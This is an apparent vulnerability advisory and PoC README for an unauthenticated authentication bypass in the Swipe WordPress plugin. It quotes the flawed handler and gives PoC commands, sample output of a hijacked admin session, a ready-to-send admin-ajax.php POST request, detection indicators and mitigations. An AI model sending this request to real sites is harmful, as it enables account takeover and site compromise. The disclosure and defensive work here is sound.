

<div align="center">

# CVE-2026-119258

### Swipe WordPress Plugin — Unauthenticated Authentication Bypass


</div>

---

## Overview

The Swipe WordPress plugin (all versions ≤ 1.4) exposes an unauthenticated AJAX handler that calls `wp_set_auth_cookie()` for any user ID found in the plugin's session table — with the nonce verification commented out. An attacker who knows or guesses the server's IP address can obtain a valid WordPress session cookie for any account that has an active Swipe app session, including administrators.

| Field | Value |
|---|---|
| **CVE** | CVE-2026-119258 |
| **CVSS 3.1** | `8.1 High` — `AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| **CWE** | CWE-287 (Improper Authentication) |
| **Affected** | Swipe plugin <= 1.4 (all releases) |
| **Patch** | No vendor patch at time of disclosure |
| **WPScan ID** | 2bb54d38-4fda-4f14-b27e-f50eca1287a3 |
| **Auth Required** | None |
| **Disclosed** | 2026-11-18 |

---

## Vulnerability Details

`controller.php` registers a **public** (unauthenticated) AJAX handler with its nonce check commented out:

```php
add_action('wp_ajax_nopriv_swipe_check_app', array(&$this, 'swipe_check_app_callback'));

// nonce check is commented out:
if ( /*wp_verify_nonce( $nonce, 'swipe' ) &&*/ sanitize_text_field($_POST['login_check']) == 'app') {
    $get_user = $wpdb->get_row("select * from {$swipe} where ip_address = '{$ip}' AND ustatus = '1' AND is_logged_out = '0'");
    if ($get_user) {
        wp_set_auth_cookie($get_user->uid);  // ← no credential check
    }
}
```

The only requirement is a matching server IP address in the `wp_swipe` table with an active session (`ustatus=1`, `is_logged_out=0`).

---

## Attack Flow



---

## PoC Usage

> **Warning:** Authorized testing on sites you own. The PoC requires at least one active Swipe app session on the target.

### Setup

```bash
pip install -r requirements.txt
# requirements: requests
```

### Automatic mode — fingerprint + candidate server IPs

```bash
python3 poc.py -u https://blog.example.com
```

Expected output — vulnerable site:
```
[*] target   : https://blog.example.com
[+] Swipe plugin detected (version: 1.4)
[+] nonce verification is commented out → vulnerable code path confirmed
[*] candidate server addresses: 203.0.113.10, 127.0.0.1, ::1
[+] bypass succeeded via 203.0.113.10
[+] session is valid against /wp-admin/
[+] authenticated as: admin
[+] session written to cookies.txt
    curl -b cookies.txt https://blog.example.com/wp-admin/
```

### Known server IP

```bash
python3 poc.py -u https://blog.example.com --ip 203.0.113.10
```

### Extra IP candidates (behind reverse proxy)

```bash
python3 poc.py -u https://blog.example.com --ip-list 10.0.0.5,172.18.0.1
```

### Through Burp Suite

```bash
python3 poc.py -u https://blog.example.com --proxy http://127.0.0.1:8080
```

### Check only — no exploitation

```bash
python3 poc.py -u https://blog.example.com --check-only
```

### Manual HTTP reproduction

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: blog.example.com
Content-Type: application/x-www-form-urlencoded

action=swipe_check_app&login_check=app&ip=203.0.113.10
```

A response body of `1` **plus** a `Set-Cookie: wordpress_logged_in_<hash>=...` header confirms vulnerability.

### Available flags

| Flag | Description |
|---|---|
| `-u URL` | Target WordPress URL (required) |
| `--ip IP` | Known server IP address |
| `--ip-list IPs` | Comma-separated IP candidates |
| `--proxy URL` | HTTP proxy for Burp Suite |
| `--check-only` | Fingerprint only, no exploitation |

---

## Detection

| Indicator | Notes |
|---|---|
| Plugin version | `GET /wp-content/plugins/swipe/readme.txt` → `Stable tag: 1.4` |
| Commented nonce | `GET /wp-content/plugins/swipe/controller.php` → contains `/*wp_verify_nonce` |
| Session cookie issued without login | Access log: `wordpress_logged_in_*` set without prior `wp-login.php POST` |

---

## Impact

Full account takeover. With an administrator session the attacker can install arbitrary plugins, edit themes, and achieve Remote Code Execution.

---

## Remediation

No vendor patch exists. Recommended mitigations:

| Action | Detail |
|---|---|
| Deactivate/remove plugin | If the Swipe app is not in active use |
| Enforce 2FA | On administrator accounts |
| Restrict `/wp-admin/` by IP | Where operationally feasible |
| Monitor session issuance | Alert on `wordpress_logged_in_*` cookies without prior login POST |

---

## References

- WPScan Advisory: https://wpscan.com/vulnerability/2bb54d38-4fda-4f14-b27e-f50eca1287a3/
- CVE Record: https://www.cve.org/CVERecord?id=CVE-2026-119258
- Plugin Source: https://plugins.svn.wordpress.org/swipe/trunk/controller.php

---

> **Disclaimer:** For authorized security research and controlled lab use only. MIT License.